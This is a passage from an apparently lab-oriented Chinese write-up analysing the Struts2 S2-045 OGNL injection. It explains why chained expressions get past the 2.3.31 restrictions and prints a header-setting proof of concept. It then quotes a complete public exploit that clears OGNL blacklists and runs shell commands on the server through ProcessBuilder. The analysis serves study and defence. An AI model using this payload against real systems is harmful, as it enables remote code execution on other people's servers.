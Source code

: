 <img src="pic/struts2_s2-045_6.png">
    
所以这里换一种表达式形式：`(e1).(e2).(e3).(e4)....`。这种形式的表达式会被解析为`ASTChain`类型，没有被限制执行。

所以，构造简单PoC如下：

```
%{
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#a=1).
(#b=2*#a).
(#c=2*#b).
(#ret=4*#c).
(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',#ret)).
(multipart/form-data)
}
```

<img src="pic/struts2_s2-045_8.png">

要构造命令执行的PoC，首先要将上下文对象`context`的`_memberAccess`属性重新赋值为`DEFAULT_MEMBER_ACCESS`。但Struts2 `2.3.31`的代码里，上下文对象`context`内部的`Map`集合已经没有`_memberAccess`这个键，当然也就无法向之前一样通过`#context['_memberAccess']`或`#_memberAccess`去访问`context`的`_memeberAccess`属性。(详见`OgnlContext`的`static`代码块和`get(Object key)`方法)

但可以通过`OgnlContext`的`setMemberAccess()`方法去设置它。然而在此之前，还得做些工作。否则`OgnlContext#setMemberAccess()`无法执行。为什么呢？这里直接拿网上的漏洞利用工具/脚本里的`S2-045`漏洞exploit来解释，如下:
```
%{
(#t='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.getExcludedPackageNames().clear()).
		(#ognlUtil.getExcludedClasses().clear()).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())
```